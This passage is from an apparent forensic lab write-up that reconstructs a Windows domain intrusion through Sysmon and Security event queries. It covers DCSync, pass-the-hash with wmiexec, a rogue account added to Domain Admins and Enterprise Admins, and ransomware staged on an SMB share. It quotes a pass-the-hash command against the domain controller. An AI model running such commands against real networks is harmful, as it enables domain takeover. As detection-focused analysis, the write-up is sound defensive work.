<figure><figcaption><p>Successful Administrator NTLM Authentication from VULNSRV with Logon ID 0x2AD34B, Correlated with Subsequent Directory Replication Access.</p></figcaption></figure>

Just **50 milliseconds later**, Event ID 4662 recorded the use of the **DS-Replication-Get-Changes-All** permission under the same Logon ID.

This correlation connects a privileged authentication session originating from the compromised VULNSRV host to Active Directory replication activity on the Domain Controller. Combined with the observed `secretsdump.exe` executions, the evidence strongly supports **DCSync-style credential access** during the intrusion.

## Lateral Movement – Remote Execution via Impacket wmiexec.exe

### 1. Tool Deployment Through AnyDesk

Following the credential-access activity involving Impacket `secretsdump.exe`, I continued examining the suspicious files created by `AnyDesk.exe` on the compromised VULNSRV host.

At **09:56:41.176 UTC**, **Sysmon Event ID 11 (File Creation)** recorded the creation of another executable:

`C:\Users\noname\Desktop\wmiexec.exe`

`wmiexec` is a remote command execution utility from the **Impacket** toolkit. It uses Windows Management Instrumentation (WMI) to execute commands on remote Windows systems and retrieve their output.

The introduction of this tool shortly after the successful NTLM authentication and Active Directory replication activity raised the possibility that the attacker was preparing to use privileged credentials for lateral movement toward the Domain Controller.

```
host.hostname:"VULNSRV" and
 event.code:"11" and
 process.name:"AnyDesk.exe"
and
 file.name:"wmiexec.exe"
```

<figure><figcaption><p>Creation of wmiexec.exe by AnyDesk.exe on VULNSRV.</p></figcaption></figure>

### 2. Pass-the-Hash Authentication – wmiexec.exe Execution

To determine whether the newly staged utility was executed, I examined **Sysmon Event ID 1 (Process Creation)** on VULNSRV.

```
host.hostname:"VULNSRV" and
 event.code:"1" and
 process.name:"wmiexec.exe" and
@timestamp >= "2026-09-23T09:56:40Z" and
 @timestamp <= "2026-09-23T09:58:00Z"
```

At **09:57:17.500 UTC**, `wmiexec.exe` (PID 3564) was launched by `cmd.exe` under the `VULNSRV\noname` account. A second process (PID 3240) was created at **09:57:17.705 UTC**, with the initial `wmiexec.exe` process recorded as its parent.

The observed command followed this pattern:

`wmiexec.exe -hashes :[NTLM_HASH] Administrator@192.168.20.10`

<figure><figcaption></figcaption></figure>

The `-hashes` argument indicates that the attacker supplied an NTLM password hash to authenticate as `Administrator` against the Domain Controller (`192.168.20.10`), rather than supplying a plaintext password.

Notably, the hash value matched one previously observed during the successful authentication attempts associated with `secretsdump.exe`. This establishes a direct relationship between the credential material used in the earlier activity and the subsequent remote execution attempt.(**T1550.002)**

<figure><figcaption><p>wmiexec.exe Execution Against the Domain Controller Using NTLM Hash Authentication.</p></figcaption></figure>

### 3. WMI-Based Remote Command Execution on DC

Having identified the execution of `wmiexec.exe` on VULNSRV, I pivoted to the Domain Controller's Sysmon telemetry to investigate whether the attacker successfully executed commands remotely.

Because Impacket `wmiexec` uses Windows Management Instrumentation, I searched for processes spawned by `WmiPrvSE.exe`, the Windows WMI Provider Host.

```
host.hostname:"DC" and
 event.code:"1" and
 process.parent.name:"WmiPrvSE.exe" and
@timestamp >= "2026-09-23T09:57:15Z" and
 @timestamp <= "2026-09-23T10:00:00Z"
```

The investigation identified **five Sysmon Event ID 1 records** between **09:57:18.797 and 09:57:43.843 UTC**, all involving `cmd.exe` processes launched under the `DETECTIONLAB\Administrator` security context with `WmiPrvSE.exe` as their parent.

<figure><figcaption><p>Remote Command Execution Through WmiPrvSE.exe on the Domain Controller.</p></figcaption></figure>

The first two commands, executed at **09:57:18.797** and **09:57:20.052 UTC**, queried the remote working directory using `cd` commands. Their output was redirected to temporary files through the local administrative share `ADMIN$` using paths beginning with `\\127.0.0.1\ADMIN$`.

This execution pattern is characteristic of Impacket's `wmiexec` utility, which uses WMI to launch remote commands and SMB administrative shares to retrieve command output.

The subsequent process creation events revealed that the attacker proceeded to execute commands designed to create a new domain account and add it to privileged Active Directory groups.(**T1047)**&#x20;

## Domain Persistence – Privileged Domain Account Creation

### 4. Creating the NONAME Domain Account

Further examination of the WMI-spawned processes revealed that the attacker moved beyond testing remote command execution and began manipulating Active Directory accounts.

At **09:57:29.167 UTC**, Sysmon Event ID 1 recorded a command executed through `WmiPrvSE.exe` to create a domain account named `NONAME` using the native Windows account-management utility `NET1`.

The recorded command used the `/DOMAIN /ADD` arguments, indicating that the target was an Active Directory domain account rather than a local account.

To verify whether the operation succeeded, I examined **Windows Security Event ID 4720 (A User Account Was Created)** on the Domain Controller.

```
host.hostname:"DC" and
 event.code:"4720" and
 winlog.event_data.TargetUserName:"NONAME" and
@timestamp >= "2026-09-23T09:57:20Z" and
 @timestamp <= "2026-09-23T09:58:00Z"
```

At **09:57:29.299 UTC**, just **132 milliseconds** after the process creation event, Windows Security recorded the successful creation of the `NONAME` account in the `DETECTIONLAB` domain, initiated by `Administrator`.

This establishes that the remotely executed account-creation command resulted in an actual change to Active Directory.(**T1136.002)**

<figure><figcaption><p>Creation of the NONAME Domain Account by Administrator.</p></figcaption></figure>

After creating the `NONAME` domain account, the attacker attempted to assign it administrative privileges within Active Directory.

```
host.hostname:"DC" and
 event.code:"4728" and
 
@timestamp >= "2026-09-23T09:57:30Z" and
 @timestamp <= "2026-09-23T09:58:00Z"
```

At **09:57:37.808 UTC**, Sysmon Event ID 1 recorded another command executed through `WmiPrvSE.exe`, using `NET1 GROUP` with the `/DOMAIN /ADD` arguments to add `NONAME` to the **Domain Admins** security group.

To verify the result, I examined **Windows Security Event ID 4728 (A Member Was Added to a Security-Enabled Global Group)**.

At **09:57:37.903 UTC**, the Domain Controller recorded a successful group membership modification targeting **Domain Admins**, performed under the `DETECTIONLAB\Administrator` account. The event was correlated with the preceding command targeting `NONAME`.

<figure><figcaption><p>Confirming a Domain Admins Group Membership Change Following the Remote Execution of NET1.</p></figcaption></figure>

### 6. Adding NONAME to Enterprise Admins

The attacker continued escalating the newly created account's privileges by targeting another highly privileged Active Directory security group.

```
host.hostname:"DC" and
 event.code:"4756" and
@timestamp >= "2026-09-23T09:57:35Z" and
 @timestamp <= "2026-09-23T09:58:00Z"
```

At **09:57:43.843 UTC**, Sysmon Event ID 1 recorded a remotely executed `NET1 GROUP` command attempting to add `NONAME` to **Enterprise Admins** using the `/DOMAIN /ADD` arguments.

Approximately **90 milliseconds later**, **Windows Security Event ID 4756 (A Member Was Added to a Security-Enabled Universal Group)** was recorded at **09:57:43.933 UTC**.

<figure><figcaption><p>Recording the Addition of NONAME to the Enterprise Admins Group.</p></figcaption></figure>

The event identified **Enterprise Admins** as the modified security group and `DETECTIONLAB\Administrator` as the account responsible for the change. Correlation with the immediately preceding command and the event's account information confirmed that `NONAME` was added to the privileged group.

The attacker had therefore established membership for the newly created domain account in both **Domain Admins** and **Enterprise Admins**, potentially providing extensive administrative control if the account was subsequently enabled and used.(**T1098.007)**&#x20;

## SMB Network Share Creation and Payload Staging

### 1. Discovering the Share Directory

While investigating suspicious file activity on **VULNSRV**, I identified a directory named `share` under `C:\Users\noname\Desktop\Attacker\`.

**Sysmon Event ID 11** recorded its creation by `AnyDesk.exe` at **09:40:35.885 UTC**. Further investigation revealed subsequent commands referencing the same directory, suggesting that it was being prepared for network-based file sharing.

```

host.hostname:"VULNSRV" and file.path:*Attacker*share* or 
process.command_line:*Attacker*share* or winlog.event_data.ShareLocalPath:*Attacker*share*)
```

<figure><figcaption><p>Initial Investigation Revealing the Share Directory and Subsequent File Staging Activity.</p></figcaption></figure>

### 2. Identifying the SMB Share Creation Command

At **09:54:43.523 UTC**, **Sysmon Event ID 1** recorded `net.exe` executing a command to publish the directory as an SMB network share named `share`. Just 20 milliseconds later, `net1.exe` executed the same command.

The command mapped the share to `C:\Users\noname\Desktop\Attacker\share` and requested **READ permissions** for both `ANONYMOUS LOGON` and `Everyone`, indicating an attempt to make the staged files accessible over the network.

<figure><figcaption><p>SMB Share Creation Command and Requested Read Permissions.</p></figcaption></figure>

<figure><figcaption><p>SMB Share Creation Command and Requested Read Permissions.</p></figcaption></figure>

### 3. Confirming SMB Share Registration

To verify the share creation, I examined **Sysmon Registry Events ID 12 and 13**.

At **09:54:43.757 UTC**, `svchost.exe` running as `NT AUTHORITY\SYSTEM` recorded registry changes under `HKLM\SYSTEM\CurrentControlSet\Services\LanmanServer\Shares\share`, followed by changes to `LanmanServer\Shares\Security\share`.

These registry artifacts, correlated with the preceding `net share` command, provide strong evidence that the directory was successfully registered as an **SMB network share** on VULNSRV.

```
host.hostname:"VULNSRV" and event.code:("12" or "13") and
registry.path:*LanmanServer*Shares* and
@timestamp >= "2026-09-23T09:54:40Z" and @timestamp <= "2026-09-23T09:54:50Z"
```

<figure><figcaption><p>Confirming the Registration and Security Configuration of the SMB Share.</p></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 4. Subsequent Payload Staging

Following the share configuration, Sysmon Event ID 11 recorded `AnyDesk.exe` creating three additional files inside the shared directory: `DC.exe` and `ELPACO-team.exe` at **09:58:55 UTC**, followed by `processhacker-2.39-setup.exe` at **09:59:19 UTC**.

This sequence indicates that the attacker used the directory to stage additional tools and a ransomware executable for potential distribution across the internal network.

```
host.hostname:"VULNSRV" and event.code:"11" and
process.name:"AnyDesk.exe" and file.path:*Attacker*share* and
@timestamp >= "2026-09-23T09:58:50Z" and @timestamp <= "2026-09-23T10:00:00Z"
```

<figure><figcaption><p>Additional Tool and Ransomware Staging Inside the SMB Share Directory.</p></figcaption></figure>

### SMB-Based Tool Distribution to Internal Servers

Following the creation of the SMB share on VULNSRV, I investigated whether the staged tools were accessed by other internal systems.

```
event.code:"3" and destination.ip:"192.168.30.10" and destination.port:445 and
@timestamp >= "2026-09-23T09:59:00Z" and @timestamp <= "2026-09-23T10:06:00Z"
```

<figure><figcaption></figcaption></figure>

At **09:59:43 UTC**, BACKUP (`192.168.20.40`) established an SMB connection to VULNSRV (`192.168.30.10:445`). Windows Security Event ID 4624 subsequently confirmed successful NTLM network authentication using `DETECTIONLAB\NONAME`. At **09:59:51 UTC**, Sysmon Event ID 11 recorded `DC.exe` being created on BACKUP's desktop by `Explorer.EXE`.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

A similar sequence occurred on FILE-SERVER (`192.168.20.50`), where SMB connectivity and successful authentication were recorded at approximately **10:04:27 UTC**, followed by the creation of staged tools on its desktop.

Additionally, Sysmon Event ID 1 on BACKUP recorded direct execution of `\\192.168.30.10\share\processhacker-2.39-setup.exe`, confirming that the SMB share was actively used by an internal server.

<figure><figcaption><p>direct execution of Process Hacker from the SMB share hosted on VULNSRV.</p></figcaption></figure>

<figure><figcaption><p>creation of DC.exe, Process Hacker, and ELPACO-team.exe on BACKUP and FILE-SERVER under the DETECTIONLAB\NONAME account.</p></figcaption></figure>

Together, these findings strongly indicate that the attacker leveraged the SMB share to distribute tools across the internal network using the compromised domain account `DETECTIONLAB\NONAME`.
